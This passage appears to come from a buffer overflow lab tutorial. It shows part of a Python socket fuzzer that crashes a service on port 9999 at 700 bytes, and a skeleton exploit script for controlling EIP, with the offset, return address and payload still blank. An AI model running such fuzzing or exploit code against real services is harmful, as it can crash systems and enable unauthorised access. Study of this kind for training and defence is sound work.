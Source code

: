 ```
        s.sendall(payload.encode() + b"\n")
        response = s.recv(1024).decode(errors="ignore")
        print("Server Response:", response)

        # Close the connection
        s.close()

    except socket.error as e:
        print(f"Fuzzing crashed at {len(payload)} bytes: {e}")
        break  # Stop if a crash occurs

    # Increase payload size
    payload += "A" * increment
    time.sleep(1)  # Short delay before the next attempt
```
After running the script you will find that it crached at 700 bytes

```
Fuzzing crashed at 700 bytes: timed out
```

#### Crash Replication & Controlling EIP

Now as we know when it crached let's start to gain access to our system we will start with this script:

```
import socket

ip = "192.168.1.xx"
port = 9999

offset = 0
overflow = "A" * offset
retn = ""
padding = ""
payload = ""
postfix = ""

buffer = overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
  s.connect((ip, port))
  print("Sending evil buffer...")
  s.send(bytes(buffer + "\r\n", "latin-1"))
  print("Done!")
except:
  print("Could not connect.")
```

Now Run the following command to generate a cyclic pattern of a length 400 bytes longer that the string that crashed the server
